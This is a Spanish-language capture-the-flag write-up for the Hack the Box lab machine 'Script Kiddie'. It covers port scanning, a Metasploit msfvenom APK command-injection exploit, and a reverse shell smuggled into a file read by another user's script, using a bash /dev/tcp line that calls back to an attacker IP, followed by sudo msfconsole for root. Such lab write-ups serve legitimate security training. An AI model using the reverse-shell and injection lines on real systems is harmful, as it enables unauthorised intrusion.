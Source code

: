 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-06-5 10:40:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, Linux, msfvenom, nmap, pivoting, msfconsole ]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/ScriptKiddie/InfoCard-ScriptKiddie.png
---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.



## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](/assets/img/Linux/ScriptKiddie/masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="/assets/img/Linux/ScriptKiddie/h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](/assets/img/Linux/ScriptKiddie/h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](/assets/img/Linux/Script Kiddie/msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](/assets/img/Linux/ScriptKiddie/msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](/assets/img/Linux/ScriptKiddie/msf03.png)

![msf04](/assets/img/Linux/ScriptKiddie/msf04.png)



Ponemos netcat a la escucha y : 

![msf05](/assets/img/Linux/ScriptKiddie/msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](/assets/img/Linux/ScriptKiddie/kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](/assets/img/Linux/ScriptKiddie/kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](/assets/img/Linux/ScriptKiddie/pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](/assets/img/Linux/ScriptKiddie/pwn_01.png)

![pwn_02](/assets/img/Linux/ScriptKiddie/pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](/assets/img/Linux/ScriptKiddie/root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](/assets/img/Linux/Script Kiddie/root_02.png)

:) 

![root_03](/assets/img/Linux/ScriptKiddie/root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](/assets/img/Linux/ScriptKiddie/gali.png)

